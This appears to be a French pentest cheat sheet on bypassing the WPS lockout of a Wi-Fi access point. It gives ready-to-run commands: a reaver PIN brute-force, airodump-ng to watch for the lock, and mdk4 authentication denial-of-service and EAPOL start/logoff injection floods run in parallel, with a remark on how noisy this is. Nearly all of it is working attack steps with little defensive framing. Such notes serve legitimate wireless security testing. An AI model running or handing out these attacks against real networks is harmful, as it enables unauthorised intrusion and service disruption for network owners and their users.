 
> [!TIP]
> Permet potentiellement de Bypass le lockout du WPS grace aux `Authentication Denial-of-Service` and `EAPOL Start and Logoff` packet injection flooding attacks.
> Faire les 3 actions en parrallèle.

> [!WARNING]
> Bruyant évidemment donc à éviter si objectif d'être discret


Lancer le Bruteforce du PIN

```shell-session
sudo reaver -l 100 -r 3:45 -i wlan0mon -b 60:38:E0:XX:XX:XX -c 11
```

Lancer airodump pour identifier quand le WPS est locked

```shell-session
airodump-ng --wps --bssid 60:38:E0:XX:XX:XX wlan0mon
```



# MDK4

https://github.com/aircrack-ng/mdk4

## Authentication DOS

DoS de l'AP

```shell-session
sudo mdk4 wlan0mon a -a 60:38:E0:XX:XX:XX
```

en parallèle couper la capture airodump et la relancer pour voir quand l'AP est down.


## Intelligent Test

Intelligent Test (connects clients against the AP and reinjects sniffed data to keep them alive.)

```shell-session
sudo mdk4 wlan0mon a -i 60:38:E0:XX:XX:XX
```


# EAPOL Injection

eapol start

```shell-session
mdk4 wlan0mon e -t 60:38:E0:XX:XX:XX
```

eapol logoff en parralel

```shell-session
 mdk4 wlan0mon e -t 60:38:E0:XX:XX:XX -l
```







